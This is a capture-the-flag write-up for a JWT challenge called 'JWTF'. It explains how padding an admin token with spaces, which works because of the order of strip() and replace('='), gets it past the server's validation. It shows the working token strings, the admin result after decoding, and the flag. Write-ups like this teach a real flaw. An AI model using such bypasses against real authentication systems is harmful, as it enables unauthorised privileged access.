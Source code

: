 ```yaml
---
ai_date: 2025-05-17 21:39:04
ai_summary: "JWT token exploitation: Padding with spaces bypassed token validation"
ai_tags:
  - jwt
  - padding
  - xss
created: 2025-05-17T03:31
points: 434
solves: 97
title: JWTF
updated: 2025-05-17T21:52
---
```


Simple JWT challenge.

```python
session = request.cookies.get('session', None).strip().replace('=', '')
```

I saw this and immediately realized that due to the order, I can just have some token like this:

```
eyJhb--- .eyJhZG1--- .gpX6k---Y73hplA =
```

Where the equals sign is removed only after the `strip`, which means now we have a free space behind the token.

With some local testing it appears that with two spaces the token is valid.

```python
token = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6dHJ1ZSwidWlkIjoiMTMzNyJ9.1sgMiOBOY0pqObWPICjjEJtuhIVBCyqB2pcCM-key0w  ="
print(jwt.decode(token, APP_SECRET, algorithms=["HS256"]))

{'admin': True, 'uid': '1337'}
```

... but it failed on remote.

I opened a ticket and apparently the author has patched this cheese.

So I looked for another cheese and quickly found another one.

```python
token = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6dHJ1ZSwidWlkIjoiMTMzNyJ9.  1sgMiOBOY0pqObWPICjjEJtuhIVBCyqB2pcCM-key0w"
print(jwt.decode(token, APP_SECRET, algorithms=["HS256"]))

{'admin': True, 'uid': '1337'}
```

Adding spaces in the middle of the token is not a problem, and it will still decode correctly.

```flag
byuctf{idk_if_this_means_anything_but_maybe_its_useful_somewhere_97ba5a70d94d}
```